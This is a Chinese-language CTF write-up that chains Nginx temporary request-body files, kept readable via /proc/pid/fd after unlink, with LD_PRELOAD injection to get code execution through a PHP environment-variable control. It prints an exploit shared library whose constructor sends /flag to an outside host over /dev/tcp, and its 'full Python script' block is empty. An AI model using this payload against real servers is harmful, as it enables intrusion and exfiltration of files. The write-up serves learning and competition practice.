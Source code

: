 [博客园wp](https://www.cnblogs.com/h0cksr/p/16189739.html) & [先知社区wp](https://xz.aliyun.com/t/11073)

仅仅能控制环境变量，参考p神的文章，本题是在可控环境变量的条件下执行sh -c "echo hfctf2022"，但是本题和p神的环境不一样。

### Nginx临时文件
~~Nginx用于反向代理时，从后端web应用接受响应并缓存到本地，然后发往客户端。响应较小时缓存到内存，如果响应过大则或发往客户端速度太慢导致内存缓冲区满，则会将一部分缓冲区内容写入临时文件中，腾出缓冲区部分空间。[source code分析](https://blog.csdn.net/kai_ding/article/details/21297101)~~(查错了，不是这个知识点)

Nginx会读取客户端请求正文(body)，有一个的缓冲区用于存储正文。如果请求正文大于缓冲区，则整个正文或仅其部分将写入临时文件，默认情况下缓冲区大小等于两个内存页。

贴一处抄来的Nginx代码：
```
ngx_fd_t
ngx_open_tempfile(u_char *name, ngx_uint_t persistent, ngx_uint_t access)
{
    ngx_fd_t  fd;

    fd = open((const char *) name, O_CREAT|O_EXCL|O_RDWR,
              access ? access : 0600);

    if (fd != -1 && !persistent) {
        (void) unlink((const char *) name);
    }

    return fd;
}
```

划重点，刚上过os课现在os的知识就来了。unlink是让文件硬链接数-1，减到0并且没有被进程open则会删除文件。如果open之后close之前执行unlink让硬链接数减到了0，那么文件不会被立刻删除，通过fd依旧可以正常操作，在close之后才会被删除。

那么此时文件在哪里呢？测试一下。安装VMware Player和Ubuntu镜像，然后gcc编译以下代码：
```
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <error.h>
#include <unistd.h>

int main() {
    puts("[+] test for open/unlink/write [+]\n");
    int fd = open("test.txt", O_CREAT|O_EXCL|O_RDWR, 0600);
    printf("open file with fd %d,try unlink\n",fd);

    unlink("test.txt");
    printf("unlink file, try write content\n");
    if(write(fd, "<?php phpinfo();?>", 19) != 19)
    {
        printf("write file error!\n");
    }

    char buffer[0x10] = {0};
    lseek(fd, 0,SEEK_SET);
    int size = read(fd, buffer , 19);
    printf("read size is %d\n",size);
    printf("read buffer is %s\n",buffer);

    puts("stopped here, input any char to execute close(): ");
    getchar();
    close(fd);
    return 0;
}
```
当目录下没有test.txt时，测试结果如图，甚至可以直接cat 3读出内容：
![nil](https://github.com/local-h0st/CTF/blob/30ede03357edb15579ffb06cb3adb9d341bf3576/writeups/pics/test_unlink_01.png)
直接访问路径行吗？


如果预先存在test.txt则不会存在/proc/pid/fd/3这个软链接，且a.out本身输出buff为空，如图：
![nil](https://github.com/local-h0st/CTF/blob/main/writeups/pics/test_unlink_02.png)
此时在getchar挡住，close未执行的情况下，目录下我自己创建的test.txt就已经消失不见了。

### LD_PRELOAD
LD_PRELOAD在进程启动前设置。\_\_attribute__是一个编译属性，GNU C特色之一，其中__attribute__((constructor))确保此函数在main函数之前被调用。贴个exp：
```
// hacklib.c
#include <stdlib.h>
#include <string.h>
__attribute__ ((constructor)) void call ()
{
    unsetenv("LD_PRELOAD");
    char str[65536];
    system("bash -c 'cat /flag' > /dev/tcp/ip/port");
    system("cat /flag > /var/www/html/flag");
}
```
gcc hacklib.c -shared -fPIC -o hacklib.so -ldl，-ldl不加也行，最终编译得到hacklib.so文件。

当我们访问php，传入参数为LD_PRELOAD=/proc/pid/fd/后，当前php脚本先会setenv，然后去执行system函数。从p神的文章中我们可以看到，system函数最终是去执行sh -c "xxx"，也就是启动一个sh进程去执行命令，获得其返回结果。由于sh是由当前php脚本开的，因此LD_PRELOAD的环境变量能被sh继承下来。所以在开sh前，hacklib.so内的call()函数就会被先执行。

### 贴一份完整的Python脚本
```

```
还是反弹shell出来的，，一顿操作虚拟机Ubuntu图形界面给我搞没了，，
